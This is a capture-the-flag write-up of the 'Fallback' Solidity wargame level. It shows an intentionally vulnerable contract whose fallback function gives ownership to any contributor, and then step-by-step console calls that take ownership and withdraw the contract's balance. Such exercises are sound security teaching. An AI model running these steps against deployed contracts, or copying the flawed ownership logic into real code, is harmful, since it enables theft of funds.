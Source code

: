 # Fallback
_difficulty 1/10_  

Look carefully at the contract's code below.


You will beat this level if  
1. you claim ownership of the contract
2. you reduce its balance to 0


Things that might help  
- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units -see help() command-
- Fallback methods

## Sources

```
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';
import 'openzeppelin-solidity/contracts/math/SafeMath.sol';

contract Fallback is Ownable {
  
  using SafeMath for uint256;
  mapping(address => uint) public contributions;

  function Fallback() public {
    contributions[msg.sender] = 1000 * (1 ether);
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] = contributions[msg.sender].add(msg.value);
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(this.balance);
  }

  function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Level author  
Alejandro Santander  
palebluedot@gmail.com  
https://github.com/ajsantander  

## Solution

1. Check current contract balance  
`fromWei(await getBalance(contract.address))`  
"0"

2. Check owner contributions  
`fromWei(await contract.contributions(await contract.owner()))`  
"1000"

3. Fallback payable function changes the contract's owner but senders contributions must be bigger than 0  
`contract.contribute({value: toWei(0.0001)});`

4. Check if contribution is valid  
`fromWei(await contract.contributions(player))`  
"0.0001"

5. Call fallback payable function  
`await contract.sendTransaction({from: player, value: toWei(0.001), gas: 90000 })`

6. Check if player is the owner.  
`player === (await contract.owner())`  
true

7. Withdraw funds.  
`await contract.withdraw()`

8. Submit Instance 🎉
